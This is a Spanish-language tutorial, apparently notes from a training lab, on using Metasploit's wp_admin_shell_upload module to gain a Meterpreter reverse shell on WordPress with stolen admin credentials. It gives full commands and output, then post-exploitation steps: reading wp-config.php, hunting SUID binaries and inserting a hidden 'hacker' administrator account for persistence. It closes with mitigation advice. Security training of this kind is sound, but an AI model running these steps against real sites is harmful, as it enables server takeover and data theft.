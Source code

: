 ### **Ataques a WordPress con Metasploit**

---

## **Automatización de la Explotación de WordPress con Metasploit**

Metasploit Framework (**MSF**) permite automatizar la explotación de WordPress mediante módulos específicos. Uno de los módulos más efectivos es `wp_admin_shell_upload`, que permite **obtener una reverse shell** si se poseen credenciales válidas de administrador.

---

## **1️⃣ Iniciar Metasploit**

Ejecutar Metasploit en la terminal:

```bash
msfconsole
```

---

## **2️⃣ Buscar el Módulo para Explotación**

Buscar módulos de explotación relacionados con WordPress:

```bash
search wp_admin
```

**Salida esperada:**

```plaintext
#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```

El módulo `wp_admin_shell_upload` permite cargar un **web shell** a través de la cuenta de administrador.

---

## **3️⃣ Seleccionar el Módulo**

Seleccionar el módulo de explotación:

```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

---

## **4️⃣ Listar Opciones del Módulo**

Para ver las opciones disponibles:

```bash
options
```

**Salida esperada:**

```plaintext
Name       Current Setting  Required  Description
----       ---------------  --------  -----------
PASSWORD                    yes       La contraseña de WordPress
RHOSTS                      yes       Dirección IP o dominio del objetivo
RPORT      80               yes       Puerto del objetivo
TARGETURI  /                yes       Ruta base de WordPress
USERNAME                    yes       Nombre de usuario de WordPress
LHOST                       yes       Dirección IP del atacante
LPORT                       yes       Puerto de escucha para la shell
```

---

## **5️⃣ Configurar Opciones**

Configurar los valores requeridos:

```bash
set rhosts blog.inlanefreight.com
set username admin
set password Winter2020
set lhost 10.10.16.8
set lport 4444
```

---

## **6️⃣ Ejecutar el Ataque**

Ejecutar el módulo:

```bash
run
```

**Salida esperada si la explotación es exitosa:**

```plaintext
[*] Started reverse TCP handler on 10.10.16.8:4444
[*] Autenticando con WordPress usando admin:Winter2020...
[+] Autenticado con éxito en WordPress
[*] Subiendo payload...
[*] Ejecutando payload en /wp-content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Enviando stage (38247 bytes) a blog.inlanefreight.com
[*] Meterpreter session 1 abierta
[+] Eliminado uTvAAKrAdp.php
```

---

## **7️⃣ Interacción con Meterpreter**

Una vez obtenida la sesión, se pueden ejecutar comandos en el servidor:

```bash
meterpreter > getuid
Server username: www-data (33)
```

Esto confirma que el atacante tiene acceso con los permisos del usuario del servidor web.

### **Comandos Útiles en Meterpreter**

|Comando|Descripción|
|---|---|
|`sysinfo`|Muestra información del sistema|
|`shell`|Accede a una shell interactiva|
|`upload file`|Sube un archivo al servidor|
|`download file`|Descarga un archivo del servidor|
|`hashdump`|Extrae hashes de contraseñas|
|`background`|Envía la sesión a segundo plano|

---

## **💡 Posibles Ataques desde la Reverse Shell**

1. **Escalada de privilegios**
    
    - Buscar archivos con permisos `SUID`:
        
        ```bash
        find / -perm -4000 2>/dev/null
        ```
        
    - Intentar ejecutar comandos con `sudo`:
        
        ```bash
        sudo -l
        ```
        
2. **Acceso a la base de datos de WordPress**
    
    - Leer las credenciales en `wp-config.php`:
        
        ```bash
        cat /var/www/html/wp-config.php
        ```
        
    - Conectarse a la base de datos:
        
        ```bash
        mysql -u root -p
        ```
        
3. **Mantener persistencia**
    
    - Crear un nuevo usuario administrador en WordPress:
        
        ```sql
        INSERT INTO wp_users (user_login, user_pass, user_email, user_registered, user_status)
        VALUES ('hacker', MD5('password123'), 'hacker@mail.com', now(), '0');
        ```
        
    - Agregar permisos de administrador:
        
        ```sql
        INSERT INTO wp_usermeta (user_id, meta_key, meta_value) VALUES ('[USER_ID]', 'wp_capabilities', 'a:1:{s:13:"administrator";b:1;}');
        ```
        

---

## **🛡️ Medidas de Seguridad para Mitigar Este Ataque**

✔ **Deshabilitar la edición de archivos en WordPress**  
Agregar en `wp-config.php`:

```php
define('DISALLOW_FILE_EDIT', true);
```

✔ **Restringir permisos de escritura en directorios de plugins y temas**

```bash
chmod -R 444 wp-content/themes/
chmod -R 444 wp-content/plugins/
```

✔ **Usar autenticación de dos factores (2FA)**  
Evita que un atacante inicie sesión con credenciales robadas.

✔ **Monitorear accesos con un WAF**  
Configurar reglas en **ModSecurity** para detectar accesos sospechosos.

✔ **Mantener WordPress y plugins actualizados**  
Reduce el riesgo de explotación de vulnerabilidades conocidas.

---

## **🔎 Conclusión**

El módulo `wp_admin_shell_upload` de **Metasploit** permite explotar WordPress si se tienen credenciales administrativas. Con una **reverse shell**, un atacante puede **escalar privilegios, acceder a la base de datos y persistir en el sistema**. Implementar **medidas de seguridad como 2FA, restricción de permisos y monitoreo de accesos** es clave para prevenir este tipo de ataques.